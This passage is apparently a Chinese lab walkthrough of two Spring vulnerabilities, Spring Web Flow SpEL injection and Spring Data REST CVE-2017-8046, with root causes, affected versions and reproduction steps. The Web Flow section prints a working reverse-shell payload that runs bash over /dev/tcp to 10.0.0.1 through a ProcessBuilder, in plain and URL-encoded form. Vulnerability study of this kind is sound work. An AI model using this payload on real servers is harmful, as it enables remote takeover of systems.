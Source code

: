 
* 漏洞原理
参考文章：[https://yaofeifly.github.io/2017/06/13/Spring\-Web\-Flow/](https://github.com)
简单来说：我们需要额外增加一个参数，且以\_开头的，作为payload来传递到后台进行解析，而根本原因是addDefaultMappings函数中对我们传递进来的parameterNames进行绑定解析，而解析的类为expressionParser，该类expressionParser的默认值可以解析SpEL表达式，所以通过控制参数造成了SpEL注入攻击。
由此可知还要有前提条件：
* MvcViewFactoryCreator类中useSpringBeanBinding默认值（false）未修改
* webflow配置文件中view\-state节点中指定了model属性，并且没有指定绑定的参数，即view\-state中没有配置binder节点
* 影响版本：2\.4\.x
* 漏洞复现
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/d817250fa1ed49e1b0a1c0b643defd9d.png)
来到登录页面
`/login`
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/3f5746e564534065a41c31ae56d209ef.png)
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/2008cb36b5654408bd3b2136691ab4c2.png)
访问：`/hotels/1` 进行预订酒店
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/eaeb66425b5b47349b6906486e7cc81b.png)
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/4b30dbfdf9da4addbf3a377d3032a826.png)
随便填写，然后提交
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/7b4f14b5091c4266b40548214ad8c17e.png)
开启抓包，点击comfirm
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/e847fec0b06444b9b308cd5efa9d2d36.png)![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/ba26f0cd3a5d4b5e9e256cb330106283.png)
这里进行一个反弹shell功能，那么在服务器先开启nc监听
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/16b0db257735421b88e64aa9092e6bde.png)
然后填入反弹shell的payload:（记得将payload进行url编码）
\_(new java.lang.ProcessBuilder("bash","\-c","bash \-i \>\& /dev/tcp/10\.0\.0\.1/21 0\>\&1")).start()\=vulhub
进行url编码↓↓↓↓进行url编码
`_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/10.0.0.1/21+0>%261")).start()=vulhub`
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/bf8a3158197745dd8fa52ebdd4672b16.png)
发送数据包，返回500是正常
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/23f12097dc7449abb406c6e86c4030f4.png)
查看nc已经看到反弹shell了
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/4a94c4b7ec9c4d41a419b3ae600f0db5.png)


## Spring Data Rest远程命令执行漏洞(CVE\-2017\-8046\)


* 漏洞原理
参考文章：[https://tech.meituan.com/2017/09/29/spring\-data\-rest\-cve.html](https://github.com)
简单来说：通过提交一个PATCH请求op为replace，调用父类PatchOperation的evaluateValueFromTarget方法，但是这里存在缺陷，没有检查路径是否符合逻辑，那么就导致setValueOnTarget往后的参数值继续进行SpEL表达式解析。
* 影响版本
Spring Data REST versions \< 2\.5\.12, 2\.6\.7, 3\.0 RC3
Spring Boot version \< 2\.0\.0M4
Spring Data release trains \< Kay\-RC3
* 漏洞复现
容器开启后直接访问：`/customers/1`
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/766e08306c2d4e2891262d30c8f40f83.png)
抓包修改为：
`该SpEL表达式操作为：touch /tmp/success`，具体执行命令可以自行修改字节来控制。
